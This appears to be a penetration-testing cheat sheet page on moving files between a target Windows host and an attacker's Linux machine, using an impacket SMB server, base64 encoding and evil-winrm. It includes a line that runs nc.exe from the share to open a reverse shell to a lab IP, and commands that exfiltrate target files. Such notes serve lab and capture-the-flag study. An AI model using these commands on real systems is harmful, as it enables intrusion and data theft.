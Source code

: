 ```yaml
---
title: "File Transfer (Windows To Linux)"
date: 2024-6-26
tags: ["file transfer", "Windows", "smb", "evil-winrm"]
---
```


---
{{< tab set1 tab1 active >}}SMB{{< /tab >}}
{{< tab set1 tab2 >}}Base64{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local SMB Server

<div>

```bash
impacket-smbserver share . -smb2support
```

</div>

#### cmd

<div>

```powershell
# Connect to SMB server without creds
net use \\10.10.14.10\share
```

```powershell
# Connect to SMB server with creds
net use \\10.10.14.10\share /u:<USER> <PASSWORD>
```

```powershell
# From target Windows to local Linux
copy example.txt \\10.10.14.10\share
```

```powershell
# From local Linux to target Windows
copy \\10.10.14.10\share\example.txt example.txt
```

```powershell
# Delete file
del example.txt
```

```powershell
# Remove SMB share
net use /d \\10.10.14.10\share
```

```powershell
# Older Windows (e.g. xp), use directly
\\10.10.14.10\share\nc.exe -e cmd.exe 10.10.14.10 443
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Small binary

<div>

```powershell
# In target Windows
[System.convert]::ToBase64String((Get-Content -Path 'C:\ProgramData\example.exe' -Encoding Byte))
```

```bash
# Copy and paste the base64 encoded binary to local Linux
echo -n '<BASE64_BINARY>' | base64 -d > example.exe
```

<small>*Note: For restricted environment*</small>

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```bash
# Evil-winrm built-in function
download "C:\ProgramData\example.txt" "/tmp/example.txt"
```

</div>

{{< /tabcontent >}}

<br>